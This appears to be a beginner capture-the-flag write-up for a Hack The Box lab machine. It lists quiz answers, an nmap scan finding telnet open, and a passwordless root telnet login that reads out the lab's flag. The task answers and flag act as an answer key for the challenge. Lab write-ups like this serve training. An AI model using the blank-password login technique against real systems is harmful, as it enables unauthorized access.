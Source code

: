 # Task 1
What does the acronym VM stand for? Virtual machine

#  Task 2
What tool do we use to interact with the operating system in order to start our VPN connection? Terminal

#  Task 3
What service do we use to form our VPN connection? Openvpn

#  Task 4
What is the abreviated name for a tunnel interface in the output of your VPN boot-up sequence output? Tun

#  Task 5
What tool do we use to test our connection to the target? Ping

#  Task 6
What is the name of the tool we use to scan the target's ports? Nmap

#  Task 7
What service do we identify on port 23/tcp during our scans? Telenet

```bash
┌──(defalt@kali)-[~/Documents/htb/starting point /tier 0]
└─$ nmap -sC -sV 10.129.244.123 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 00:32 PDT
Nmap scan report for 10.129.244.123
Host is up (0.18s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.40 seconds
```
# Task 8
What username ultimately works with the remote management login prompt for the target? root

#  Submit Flag

Submit root flag 
```bash
┌──(defalt@kali)-[~/Documents/htb/starting point /tier 1]
└─$ telnet 10.129.244.123                                                                                                                                                                 1 ⨯
Trying 10.129.244.123...
Connected to 10.129.244.123.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

Last login: Fri Apr  8 07:39:36 UTC 2022 on pts/0
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```
